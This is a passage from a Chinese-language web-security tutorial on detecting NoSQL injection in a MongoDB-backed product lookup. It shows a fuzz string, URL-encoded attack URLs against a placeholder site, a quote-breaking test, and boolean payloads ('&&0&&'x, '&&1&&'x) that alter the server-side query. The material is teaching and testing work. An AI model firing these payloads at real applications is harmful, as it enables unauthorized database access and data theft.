 ```plain
https://insecure-website.com/product/lookup?category=fizzy
```

此时应用程序发送 JSON 查询并从 MongoDB 数据库中的产品集合中检索相关产品：

```plain
this.category == 'fizzy'
```

要测试输入是否易受 SQL 注入攻击，我们只需要在类别参数的值中提交一个模糊字符串，MongoDB 的一个示例字符串是：】

```plain
'"`{
;$Foo}
$Foo \xYZ
```

使用此模糊字符串构建以下攻击向量，如果导致原始响应发生变化则可能表明用户输入没有正确过滤或净化

```plain
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

![图片](assets/1711872140-ec756de6b7b44f780ddab9c8f0ca35c7.webp)

##### 过滤字符

我们要确定应用程序将哪些字符解释为语法，我们可以注入单个字符，例如：可以提交'，这将导致以下 MongoDB 查询：

```plain
this.category == '''
```

如果这导致原始响应发生更改，则可能表示" ' "字符破坏了查询语法并导致语法错误，您可以通过在输入中提交有效的查询字符串来确认这一点，例如：通过转义引号，如果不会导致语法错误则意味着应用程序容易受到注入攻击

```plain
this.category == '\''
```

##### 确定条件

检测到漏洞后下一步是确定是否可以使用 NoSQL 语法影响布尔条件，要测试这一点，我们需要发送两个请求，一个条件为 false，一个为 true，例如：可以使用条件语句'&&0&&'x 和'&&1&&'x，如果应用程序的行为不同则表明假条件会影响查询逻辑，但真条件不会，同时也表明注入这种语法风格会影响服务器端查询

```plain
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
